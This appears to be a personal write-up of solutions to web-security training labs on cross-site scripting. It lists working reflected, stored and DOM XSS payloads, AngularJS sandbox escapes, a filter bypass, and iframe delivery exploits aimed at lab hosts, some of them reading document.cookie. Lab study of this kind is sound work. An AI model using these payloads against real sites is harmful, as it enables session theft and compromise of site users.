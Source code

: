 Ania Pirogowicz
# XSS

## Reflected XSS into HTML context with nothing encoded

```
?search=<script>alert(document.domain)</script>
```

## Stored XSS into HTML context with nothing encoded

In the leaving post commet functionality, the comment body is vulnerable:

```
<script>alert(document.domain)</script>Comment
```

## DOM XSS in document.write sink using source location.search

```
?search="+onload%3Dalert%28document.domain%29+x%3D"  // Without encoding: " onload=alert(document.domain) x="
```

## DOM XSS in innerHTML sink using source location.search

```
?search=<img+src%3D"X"+onerror%3Dalert%28document.domain%29>  // Without encoding: <img src="X" onerror=alert(document.domain)>
```

## DOM XSS in jQuery anchor href attribute sink using location.search source

```
/feedback?returnPath=javascript:alert(document.cookie)
```

## DOM XSS in jQuery selector sink using a hashchange event

On appending to URL this payload the XSS triggers via creating provided `img` element by jQuery handler `$()`:
```
#<img src=X onerror=print()>
```

Deliver to victim:
```
<iframe src='https://0a0d00c00320c7a8868f0d22007000ee.web-security-academy.net/#' onload="this.src+='<img src=X onerror=print()>'"></iframe>
```

## Reflected XSS into attribute with angle brackets HTML-encoded

```
?search=" autofocus onfocus=alert(document.domain) x="
```

## Stored XSS into anchor href attribute with double quotes HTML-encoded

Create a post with `Website` parameter equal to:
```
javascript:alert(document.domain)
```
or to:
```
javascript:print()
```
It is injected into `href` tag later

## Reflected XSS into a JavaScript string with angle brackets HTML encoded

Characters `'` are not encoded by 
```
?search='; alert(1); var x='
```

## DOM XSS in document.write sink using source location.search inside a select element

```
/product?productId=2&storeId=</option></select><img src=X onerror=alert(1)>
```

## DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app` attr in body

Search for `{{2+2}}` retrieves with `{{2+2}}` in page source, but on website is visible as `4`, because of `ng-app` which executes this.

```
{{$on.constructor('alert(1)')()}}

{{$eval.constructor('alert(1)')()}}
```

The only thing we care about is to get to `Function` constructor, create function with it and call it. Since `$eval` and `$on` are functions in scope of angular we can use them.

## Reflected DOM XSS

Search:
```
\"}; alert(1); // -
```

Search term is passed with result to eval function

## Stored DOM XSS

Escaping function:
```
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

Testing this:
```
"<><><>".replace('<', '&lt;').replace('>', '&gt;')
```

Results in:
```
"&lt;&gt;<><>"
```

Create a comment with body:
```
<><img src=X onerror=alert(document.domain)>
```

## Reflected XSS into HTML context with most tags and attributes blocked

Fuzz all posiible tags, to test which one could be used. `<body>` and custom tags (like for eg. `<xss>`) are accepted.

Fuzz all possible events. `onresize` is accepted.

It turns out that new body is not injected, but the main one inherits the attributes of the new one. So searching for `<body onresize=print()></body>` will add `onresize=print()` to main body.

Deliver with body:
```
<iframe src=https://0ac9008903e8dd708000c1ac00020078.web-security-academy.net/?search=%3cbody+onresize%3dprint()%3e%3c%2fbody%3e onload=this.style.width="100px"></iframe>
```

## Reflected XSS into HTML context with all tags blocked except custom ones

XSS with custom tag:
```
<xss autofocus tabindex=1 onfocusin=alert(document.cookie) style="display: block">a</xss>
```

Deliver body:
```
<script>
    location = "https://0a66005c0464b19d8b41541a007d004d.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocusin%3Dalert%28document.cookie%29+style%3D%22display%3A+block%22%3Ea%3C%2Fxss%3E"
</script>
```